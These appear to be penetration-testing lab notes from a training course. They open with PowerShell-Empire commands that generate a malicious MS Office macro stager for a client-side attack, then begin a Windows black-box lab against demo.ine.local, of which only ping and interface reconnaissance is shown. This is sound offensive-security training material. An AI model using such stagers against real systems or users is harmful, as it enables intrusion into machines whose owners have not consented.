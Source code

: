**Generate a MS Office macro to perform a client-side attack**.

`main`, `usestager windows/macro`, `info`, `set Listener http`, `set OutFile /root/Desktop/ms_macro`, `execute`.

`cat /root/Desktop/macro`.

### Windows Black-Box Penetration Test (with Nmap, Metasploit, PowerShell-Empire, proxychains) - Lab

#### Lab Environment

You have been tasked by an organization to conduct a penetration test. Suppose that the organization's internet-facing machine is accessible at `demo.ine.local`. There is another machine (`fileserver.ine.local`) which is not directly accessible.

Task: Perform remote exploitation and post-exploitation tasks on vulnerable systems, gain access to both machines and retrieve the flag!

Learning Objectives:
- Identify vulnerabilities from a remote exploitation perspective.
- Exploit discovered vulnerabilities.
- Obtain access to machines (that are not directly accessible).
- Use PowerShell and related tools for tasks where applicable.

Recommended tools:
- PowerShell-Empire
- Nmap
- Metasploit

#### Lab Solution

**Step 1: Network Discovery**.

`ping -c 3 demo.ine.local`:
```
PING demo.ine.local (10.2.26.239) 56(84) bytes of data.
64 bytes from demo.ine.local (10.2.26.239): icmp_seq=1 ttl=125 time=3.71 ms
64 bytes from demo.ine.local (10.2.26.239): icmp_seq=2 ttl=125 time=2.61 ms
64 bytes from demo.ine.local (10.2.26.239): icmp_seq=3 ttl=125 time=2.57 ms

--- demo.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms ←
rtt min/avg/max/mdev = 2.572/2.964/3.711/0.528 ms
```

`ping -c 3 fileserver.ine.local`:
```
PING fileServer.ine.local (10.2.26.191) 56(84) bytes of data.

--- fileServer.ine.local ping statistics ---
3 packets transmitted, 0 received, 100% packet loss, time 2033ms ←
```

`ip addr | grep 'inet'`:
```
    inet 127.0.0.1/8 scope host lo
    inet 10.1.0.7/16 brd 10.1.255.255 scope global eth0
    inet 10.10.11.2/24 brd 10.10.11.255 scope global eth1 ←
```
